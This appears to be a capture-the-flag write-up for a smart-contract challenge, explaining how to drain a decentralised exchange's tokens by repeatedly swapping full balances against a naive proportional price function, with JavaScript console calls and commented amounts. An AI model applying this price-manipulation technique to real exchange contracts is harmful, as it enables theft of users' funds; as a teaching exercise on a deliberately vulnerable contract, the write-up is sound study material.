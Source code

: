 # Answer

Goal: Steal DEX funds (at least of one of the tokens).

## 1. Approving tokens

Before we can begin swapping we need to call `approve()` of dex with high enough value so we wouldn't need to repeatedly call it (example: '50000').

## 2. Exploiting swap

It is hard to call this an exploit, since the `getSwapPrice()` performs as expected (bad). It is using simple proportion to calculate the outcome and if keep trading maximum amounts the output will start growing exponentially.

```js
await contract.swap(token1Addr, token2Addr, await contract.balanceOf(token1Addr, player)) // in T1 (10) -> out T2 (10)
await contract.swap(token2Addr, token1Addr, await contract.balanceOf(token2Addr, player)) // in T2 (20) -> out T1 (24)
await contract.swap(token1Addr, token2Addr, await contract.balanceOf(token1Addr, player)) // in T1 (24) -> out T2 (30)
await contract.swap(token2Addr, token1Addr, await contract.balanceOf(token2Addr, player)) // in T2 (30) -> out T1 (47)
...
```

You can see how the output amount is growing, eventually we hit an amount the exchange is unable to swap due to insufficient balance. But in that case, just calculate the exact required input to drain the output token to 0.

